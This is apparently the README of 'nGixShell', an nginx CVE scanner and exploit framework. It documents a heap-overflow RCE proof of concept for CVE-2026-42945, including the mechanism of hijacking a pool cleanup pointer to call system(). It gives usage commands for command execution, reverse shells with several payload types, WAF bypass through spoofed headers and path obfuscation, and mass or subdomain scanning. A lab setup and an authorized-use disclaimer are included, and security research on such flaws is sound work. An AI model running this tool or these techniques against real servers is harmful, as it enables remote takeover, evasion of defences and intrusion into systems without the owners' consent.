

<div align="center">
  
</div>

<div align="center">


</div>

---

**nGixShell** is an nginx CVE scanner and RCE exploit framework. It ships a proof-of-concept for **CVE-2026-42945** (CVSS 3.1 **8.1 HIGH** per F5/NVD) — a heap buffer overflow in `ngx_http_rewrite_module` — and a scanner covering **53 nginx CVEs** with automated HTTP probes, fingerprinting, WAF detection/bypass, web security auditing, and report generation.

Zero external dependencies. Pure Python 3 stdlib.

> **Exploit prerequisites (read first).** `--cmd` / `--shell` only work when **all** of
> these are true: the target is **x86_64**, the vulnerable `rewrite`+`set` config is
> present, **ASLR is disabled**, and the heap/libc addresses were **calibrated for
> that exact build** (`calibrate.py` → `--build-file`). See
> [Exploit Requirements](#exploit-requirements-read-first). The scanner itself has
> no such requirements.

---

## Quick Start

```bash
# Spin up the vulnerable lab (builds nginx from source, ASLR disabled)
docker compose -f env/docker-compose.yml up -d --build

# Auto mode — fingerprint + CVE scan + web audit (works on any arch)
python3 ngixshell.py 127.0.0.1:19321

# RCE — calibrate, restart the worker for a clean heap, then exploit
W=$(pgrep -f 'nginx: worker' | head -1)
sudo python3 calibrate.py 127.0.0.1 19321 "$W" --spray-path /spray \
    --spray-mode full --json -o profile.json
docker compose -f env/docker-compose.yml restart nginx-vuln
python3 ngixshell.py 127.0.0.1:19321 --cmd 'id > /tmp/rce.txt' \
    --build-file profile.json
docker compose -f env/docker-compose.yml exec nginx-vuln cat /tmp/rce.txt

# Drop a reverse shell (IP auto-detected)
python3 ngixshell.py 127.0.0.1:19321 --shell --shell-type bash --upgrade-shell --build-file profile.json

# Detect and bypass WAF, then scan
python3 ngixshell.py 127.0.0.1:19321 --waf-bypass

# Subdomain scan
python3 ngixshell.py --subdomain-scan example.com --scan-port 443

# Multiple targets from a file (one report per target)
python3 ngixshell.py --target-file hosts.txt --json --html-report results.html
```

No flags required — pointing the tool at a target runs everything automatically.  
TLS is **auto-detected**. nginx is fingerprinted even with `server_tokens off`.

> `system()` does not capture stdout: `--cmd 'id'` runs but prints nothing back.
> Use a command with an observable side effect and confirm it with
> `--verify-url http://target/pwned` (HTTP 200 = confirmed).

---

## Usage

```
python3 ngixshell.py [TARGET] [OPTIONS]

TARGET formats:
  127.0.0.1
  192.168.1.10:8080
  http://192.168.1.10:8080
  https://target.local
```

### Modes

| Flag | Description |
|---|---|
| *(none)* | **Auto** — fingerprint + CVE scan + web audit |
| `--cmd 'CMD'` | Execute command via CVE-2026-42945 RCE |
| `--cmd-file FILE` | Execute commands from file (joined with `;`) |
| `--shell` | Pop a reverse shell |
| `--shell-type TYPE` | Payload: `bash` `python` `perl` `php` `nc` `powershell` (default: `python`) |
| `--upgrade-shell` | Auto-send PTY upgrade after shell connects |
| `--verify-url URL` | After a detected crash, fetch URL to confirm the command ran (200 = verified) |
| `--subdomain-scan DOMAIN` | Find vulnerable nginx on subdomains |
| `--cve CVE-ID` | Test one specific CVE |
| `--list-cves` | Print all 53 CVEs with CVSS and probe info |
| `--list-candidates` | Print heap address candidates |
| `--dry-run` | Fingerprint + scan only, no exploit |
| `--target-file FILE` | Scan multiple hosts from a file |

### Exploit tuning

| Flag | Description |
|---|---|
| `--build-file FILE` | **Recommended.** JSON calibration profile from `calibrate.py --json -o FILE` |
| `--offsets SPEC` | Comma-separated hex heap offsets from `calibrate.py` (e.g. `0x5a427,0x60e67`) |
| `--heap-base HEX` / `--libc-base HEX` / `--system-addr HEX` | Manual address overrides |
| `--build KEY` | Built-in profile (**only** the DepthFirst lab reference is shipped) |
| `--rewrite-path PATH` | Vulnerable `rewrite` location (default `/api`) |
| `--spray-path PATH` | `proxy_pass`-backed location used for the POST-body spray (default `/upload`) |
| `--tries N` / `--spray N` / `--body-len N` | Trigger attempts per candidate / spray connections / spray body size |

### WAF Detection & Bypass

| Flag | Description |
|---|---|
| `--waf-detect` | Detect WAF before scanning |
| `--waf-bypass` | Enable all bypass techniques (also runs detection) |
| `--waf-ip IP` | Spoof this IP in bypass headers (default: random RFC1918) |

**Bypass techniques** (all active when `--waf-bypass` is set):

| Technique | Detail |
|---|---|
| IP spoofing | `X-Forwarded-For`, `X-Real-IP`, `X-Originating-IP`, `True-Client-IP`, `X-Remote-IP`, `X-Client-IP` |
| UA rotation | 11 real browser/bot User-Agents, randomised per request |
| Path obfuscation | double-slash, `/./` padding, percent-encoding, case variation |
| Header case shuffle | randomises header name casing to break WAF pattern matching |

**Detected WAFs:** Cloudflare, AWS WAF, Akamai, Imperva/Incapsula, ModSecurity, F5 BIG-IP ASM, Sucuri, Barracuda, NAXSI, Fastly, Wordfence

### Web Audit

Runs automatically in scan mode. All modules can be skipped individually.

| Flag | Description |
|---|---|
| `--skip-headers` | Skip HTTP security header audit |
| `--skip-paths` | Skip path/file discovery |
| `--skip-vhosts` | Skip virtual host enumeration |
| `--skip-tls` | Skip TLS protocol audit |
| `--path-wordlist FILE` | Extra paths to probe (one per line) |

- **Header audit** — HSTS, CSP, X-Frame-Options, X-Content-Type-Options, Referrer-Policy, Permissions-Policy, version-leaking headers
- **Path discovery** — 50+ paths; sentinel probe eliminates false positives from catch-all 403/301 rules
- **Virtual host enumeration** — requires status AND body diff to avoid default-block false positives
- **TLS audit** — tests TLS 1.0–1.3 support, certificate expiry, and self-signed detection
- **stub_status** — parses active connection metrics from `/nginx_status` if exposed

### Connection

| Flag | Description |
|---|---|
| `--port PORT` | Override port |
| `--tls` | Force TLS (auto-detected by default) |
| `--proxy URL` | Proxy: `http://`, `https://`, `socks5://` |

### HTTP

| Flag | Description |
|---|---|
| `--user-agent UA` | Custom User-Agent |
| `--auth USER:PASS` | HTTP Basic auth |
| `--cookie VALUE` | Cookie header |
| `--header NAME:VALUE` | Extra header (repeatable) |

### Rate / Timing

| Flag | Description |
|---|---|
| `--rate-limit RPS` | Max requests per second |
| `--jitter MS` | Random delay 0–MS ms between requests |
| `--retry N` | Retry inconclusive probes (default: 1) |
| `--timeout-multiplier X` | Scale all timeouts (default: 1.0) |

### Output

| Flag | Description |
|---|---|
| `--output FILE` | Write log to FILE |
| `--json` | Print JSON summary at end (multi-target: `{"targets": [...]}`) |
| `--html-report [FILE]` | Generate HTML report (one file per target in multi-target mode) |
| `--verbose` | Debug output |

**Exit codes:** `0` — no findings / exploit verified; `1` — findings present, no
crash, or execution error. Intended for CI gating. `--cmd` without `--verify-url`
returns `0` on a detected worker crash, which only proves the overflow reached the
pool cleanup pointer — not that code executed.

---

## CVE Coverage

53 entries spanning 2009–2026. Scores reflect CVSS v3.1 base metrics from
NVD/F5 advisories at the time of writing (verify before relying on them for triage).

| CVE | CVSS | Component | Description |
|---|---|---|---|
| CVE-2026-42945 | 8.1 HIGH | rewrite | Heap overflow → RCE with ASLR off (**exploited**) |
| CVE-2026-42946 | 6.5 MEDIUM | scgi/uwsgi | Excessive memory allocation / over-read |
| CVE-2022-41741 | 7.8 HIGH | mp4 | Memory corruption via malicious mp4 |
| CVE-2016-1247 | 7.8 HIGH | packaging | Log file symlink privilege escalation |
| CVE-2021-23017 | 7.7 HIGH | resolver | Off-by-one heap overwrite |
| CVE-2026-40701 | 4.8 MEDIUM | SSL | ssl_verify_client + ssl_ocsp flaw |
| CVE-2026-42934 | 4.8 MEDIUM | charset | charset/charset_map + unbuffered proxy_pass |
| CVE-2026-27784 | 7.8 HIGH | mp4 | Buffer over-read/over-write (32-bit builds) |
| CVE-2026-32647 | 7.8 HIGH | mp4 | Buffer over-read/over-write |
| CVE-2024-24990 | 7.5 HIGH | HTTP/3 | Use-after-free in QUIC module |
| CVE-2024-24989 | 7.5 HIGH | HTTP/3 | NULL pointer dereference in QUIC |
| CVE-2024-31079 | 7.5 HIGH | HTTP/3 | Stack overflow in QUIC encoder |
| CVE-2024-32760 | 7.5 HIGH | HTTP/3 | Buffer overwrite via HEADERS frame |
| CVE-2022-41742 | 7.5 HIGH | mp4 | Heap memory disclosure |
| CVE-2017-7529 | 7.5 HIGH | range filter | Integer overflow → out-of-bounds read |
| CVE-2016-0746 | 7.5 HIGH | resolver | Use-after-free via crafted DNS response |
| CVE-2014-0133 | 7.5 HIGH | SPDY | Heap overflow in SPDY implementation |
| CVE-2014-0088 | 7.5 HIGH | SPDY | Memory corruption in SPDY |
| CVE-2013-4547 | 7.5 HIGH | core | Space+NUL URI bypass |
| CVE-2013-2028 | 7.5 HIGH | core | Chunked encoding stack overflow |
| CVE-2012-1180 | 7.5 HIGH | proxy | Use-after-free in proxy module |
| CVE-2009-3555 | 7.5 HIGH | SSL | TLS renegotiation injection (MITM) |
| CVE-2009-2629 | 7.5 HIGH | core | Buffer underflow in URI parsing |
| CVE-2026-42926 | 5.8 MEDIUM | HTTP/2 | Frame-header injection (proxy_set_body) |
| CVE-2026-27654 | 8.2 HIGH | WebDAV | Heap overflow in DAV module |
| CVE-2026-28753 | 3.7 LOW | mail | CRLF injection via DNS responses (SMTP) |
| CVE-2026-1642 | 5.9 MEDIUM | proxy | SSL upstream session reuse leak |
| CVE-2019-9511 | 6.5 MEDIUM | HTTP/2 | Data Dribble CPU/memory DoS |
| CVE-2012-2089 | 6.8 MEDIUM | mp4 | Buffer overflow via mp4 request |
| CVE-2018-16845 | 5.5 MEDIUM | mp4 | Integer underflow → crash + disclosure |
| CVE-2019-20372 | 5.3 MEDIUM | proxy | HTTP request smuggling |
| CVE-2026-40460 | 6.5 MEDIUM | HTTP/3 | QUIC connection spoofing |
| CVE-2026-28755 | 5.4 MEDIUM | stream SSL | Revoked-cert handling (OCSP) |
| CVE-2025-23419 | 4.3 MEDIUM | SSL | TLS session resumption cert bypass |
| CVE-2024-35200 | 5.3 MEDIUM | HTTP/3 | NULL pointer dereference |
| CVE-2024-34161 | 5.3 MEDIUM | HTTP/3 | Memory disclosure |
| CVE-2016-4450 | 5.3 MEDIUM | core | NULL pointer via chunked request body |
| CVE-2016-0742 | 5.0 MEDIUM | resolver | Invalid pointer via crafted UDP packet |
| CVE-2016-0747 | 5.0 MEDIUM | resolver | Insufficient CNAME resolution limit |
| CVE-2014-3556 | 5.0 MEDIUM | mail | STARTTLS command injection |
| CVE-2013-2070 | 5.3 MEDIUM | proxy | Backend response disclosure |
| CVE-2011-4963 | 5.0 MEDIUM | access | IPv6 literal access control bypass |
| CVE-2011-4315 | 5.0 MEDIUM | resolver | Heap overflow via crafted DNS response |
| CVE-2009-3896 | 5.0 MEDIUM | core | NULL pointer dereference DoS |
| CVE-2025-53859 | 3.7 LOW | mail | SMTP command injection |
| CVE-2014-3616 | 4.3 MEDIUM | SSL | TLS SNI virtual host confusion |
| CVE-2026-27651 | 7.5 HIGH | mail | Worker termination (auth_http) |
| CVE-2019-9513 | 4.3 MEDIUM | HTTP/2 | Resource Loop CPU DoS |
| CVE-2019-9516 | 4.3 MEDIUM | HTTP/2 | 0-Length Headers memory exhaustion |
| CVE-2018-16843 | 4.3 MEDIUM | HTTP/2 | Excessive memory consumption |
| CVE-2018-16844 | 4.3 MEDIUM | HTTP/2 | Excessive CPU via SETTINGS frames |
| CVE-2024-7347 | 4.7 MEDIUM | mp4 | Out-of-bounds read |
| CVE-2009-3898 | 4.9 MEDIUM | WebDAV | Directory traversal via COPY/MOVE |

---

## The Bug (CVE-2026-42945)

nginx's rewrite script engine uses a **two-pass** model: compute buffer size, then copy. The `is_args` flag is set on the main engine when a `rewrite` replacement contains `?`, but the length-calculation pass runs on a freshly zeroed sub-engine:

- **Length pass** — sees `is_args = 0` → returns raw capture length
- **Copy pass** — sees `is_args = 1` → calls `ngx_escape_uri(NGX_ESCAPE_ARGS)`, expanding each unsafe byte to 3 bytes

The copy overflows the undersized heap buffer with attacker-controlled URI data. Exploitation corrupts an adjacent `ngx_pool_t` cleanup pointer via cross-request heap feng shui, redirecting it to a fake `ngx_pool_cleanup_s` that calls `system()` on pool destruction.

### Affected Versions

| Product | Vulnerable | Fixed |
|---|---|---|
| NGINX Open Source | 0.6.27 – 1.30.0 | 1.31.0, 1.30.1 |
| NGINX Plus | R32 – R36 | R36 P4, R35 P2, R32 P6 |

Vendor advisory: <https://my.f5.com/manage/s/article/K000161019>  
Reference research & exploit: <https://github.com/DepthFirstDisclosures/Nginx-Rift>

---

## Exploit Requirements (read first)

The RCE primitive corrupts `ngx_pool_t` cleanup pointers and needs deterministic
heap addresses. **All** of the following are mandatory — the tool warns and
aborts when they are not met:

1. **x86_64 target.** arm64 heap addresses (`0xaaaa…`) always contain bytes that
   nginx's `NGX_ESCAPE_ARGS` encoder rewrites, so no candidate address survives
   the URI filter (`calibrate.py` then reports "no URL-safe offsets").
2. **Vulnerable config.** A `rewrite` whose replacement contains `?`, followed
   by `set`/`if`/`rewrite` using an unnamed capture, e.g.
   `rewrite ^/api/(.*)$ /internal?migrated=true; set $x $1;` — plus a
   `proxy_pass`-backed location used for the POST-body spray.
3. **ASLR disabled** on the target (`kernel.randomize_va_space=0`, container
   started with `setarch -R`, etc.).
4. **Per-build calibration, from the same heap state.** Heap base, libc base
   and spray offsets differ per nginx build, libc, distro and config — and even
   per worker state. `calibrate.py` replicates the exact requests the exploit
   makes before spraying (TLS probe, fingerprint, wait_alive) so the offsets
   match. Run it, then restart the worker so both start from the same clean
   state:

   ```bash
   W=$(pgrep -f 'nginx: worker' | head -1)
   sudo python3 calibrate.py <host> <port> "$W" --spray-path /spray \
       --spray-mode full --json -o profile.json
   # restart nginx (fresh worker), then:
   python3 ngixshell.py <host> --cmd 'id > /tmp/rce.txt' --build-file profile.json
   ```

   The heap feng-shui is build-specific: this was validated against the bundled
   lab (Ubuntu 22.04, nginx built from source at `98fc3bb`, glibc 2.35,
   ASLR off). See [Validation status](#validation-status).

`--cmd` runs through `system()`, so stdout is **not** captured. Always confirm
with a verifiable side effect (`--verify-url`) — a detected worker crash alone
proves the overflow reached the cleanup pointer, not that code executed.

---

## Lab Setup

The bundled lab is built from the same nginx revision and flags as the
DepthFirst Nginx-Rift lab (`env/Dockerfile`), with the `rewrite`+`set` trigger,
a `/spray` location backed by a delaying backend, and `setarch -R` (ASLR off)
in `env/entrypoint.sh` (needs `seccomp=unconfined`, already set in the compose
file).

Tested on Ubuntu 24.04 LTS (x86_64). Requires Docker and Python 3.8+.

```bash
# Start the vulnerable lab (first build compiles nginx: a few minutes)
docker compose -f env/docker-compose.yml up -d --build

# Full scan (works on any architecture)
python3 ngixshell.py 127.0.0.1:19321

# RCE (x86_64 host only): calibrate, restart, exploit
W=$(pgrep -f 'nginx: worker' | head -1)
sudo python3 calibrate.py 127.0.0.1 19321 "$W" --spray-path /spray \
    --spray-mode full --json -o profile.json
docker compose -f env/docker-compose.yml restart nginx-vuln
python3 ngixshell.py 127.0.0.1:19321 --cmd 'id > /tmp/rce.txt' \
    --build-file profile.json
docker compose -f env/docker-compose.yml exec nginx-vuln cat /tmp/rce.txt

# Reverse shell — bash payload, PTY auto-upgrade
python3 ngixshell.py 127.0.0.1:19321 --shell --shell-type bash \
    --upgrade-shell --build-file profile.json

# WAF bypass scan with spoofed IP
python3 ngixshell.py 127.0.0.1:19321 --waf-bypass --waf-ip 10.10.10.1

# Through SOCKS5 proxy
python3 ngixshell.py 192.168.1.10 --proxy socks5://127.0.0.1:9050

# Subdomain scan with rate limiting
python3 ngixshell.py --subdomain-scan example.com --scan-port 443 --rate-limit 10

# Multiple targets, JSON output, HTML report (one report per target)
python3 ngixshell.py --target-file hosts.txt --json --html-report results.html
```

---

## Validation status

Run the suite yourself (no dependencies, uses local fixtures):

```bash
python3 test_validation.py
```

Validated on 2026-09-24 (`test_validation.py`, 38 checks):

| Area | Result |
|---|---|
| Scanner / fingerprint / CVE probes / web audit / stub_status / vhosts | PASS |
| WAF detection + bypass headers/path obfuscation | PASS |
| HTTP CONNECT and SOCKS5 proxies, TLS audit (cert decode, expiry, protocols) | PASS |
| JSON/HTML reports, multi-target reports, HTML escaping | PASS |
| Error handling (`--build-file` missing, bad offsets), dry-run, exit codes | PASS |
| CVE-2026-42945 trigger (worker crash on vulnerable config) | CONFIRMED |
| RCE via `--cmd` (command execution inside the nginx container) | **CONFIRMED** |

RCE evidence: against the bundled lab (nginx built from `98fc3bb` on Ubuntu
22.04, ASLR off) with a profile from `calibrate.py`, the injected command ran
in the worker's context:

```
$ python3 ngixshell.py 127.0.0.1:19321 --cmd 'id > /tmp/rce_id.txt' --build-file profile.json
$ docker compose exec nginx-vuln cat /tmp/rce_id.txt
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

Reproduced across multiple independent runs. Notes for reproduction:

- `calibrate.py` must run against a fresh worker and the same request sequence
  the exploit makes (it now replicates the warmup automatically).
- Restart nginx between calibration and exploitation so both start from the
  same heap state.
- The worker crashes right after `system()` runs, so the exploit reports
  "CRASH DETECTED (execution unconfirmed)" unless you verify the side effect —
  use `--verify-url` or check the target, and never treat a crash as RCE by
  itself.

---

## Disclaimer

For authorized security testing, CTF competitions, and research only.
